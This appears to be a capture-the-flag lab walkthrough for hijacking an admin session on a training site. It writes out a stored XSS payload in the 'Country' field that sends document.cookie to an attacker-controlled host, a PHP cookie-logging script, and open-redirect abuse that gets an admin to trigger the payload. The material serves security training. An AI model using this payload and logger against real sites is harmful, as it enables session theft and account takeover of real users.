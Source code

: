 Find a way to hijack an admin's session. Read the flag residing in the admin's public profile. Go through the PCAP file residing in the admin's public profile and identify the flag.

Access to `http://minilab.htb.net` and login with the provided credentials. Among the input fields, if we try some test, we discover that the `Country` is the vulnerable field.

Inside that, we can inject the following:
```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:<PORT>/log.php?c=' + document.cookie;"></video>
```
The `Country` field is execute when we click on `Share` that corresponds to the following link: `http://minilab.htb.net/profile?email=julie.rogers@example.com`.

Now create the `log.php` file with the following content:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
Visit `http://minilab.htb.net/submit-solution`. You notice there is `url` parameter. You can use it for Open Redirect vulnerability. If you try to do a test by `http://minilab.htb.net/submit-solution?url=http://<VPN/TUN Adapter IP>:PORT` and by exposing an HTTP server, you can see some parameters related to the presence of an admin. So, you can get the session ID of the admin by sending the following URL: `http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com`. Remember to start a PHP server by `php -S 0.0.0.0:<PORT>`.

If you see the correct request on the PHP server, open the `cookieLog.txt` file and you will see the session ID of the administrator. Use it by refreshing the main page `http://minilab.htb.net/app` but changing continuously the shown session ID with the admin session ID by using Burp Intercept. Then, click on "Change Visibility" and keep always Burp as Interceptor so you can continue to inject the admin session ID. Then, click on "Share", and you will get the first flag.

Then, download the .pcap file by `Flag2` button, open it by Wireshark, filter for `http`, and among those packets you will find a GET request with a parameter containing the second flag.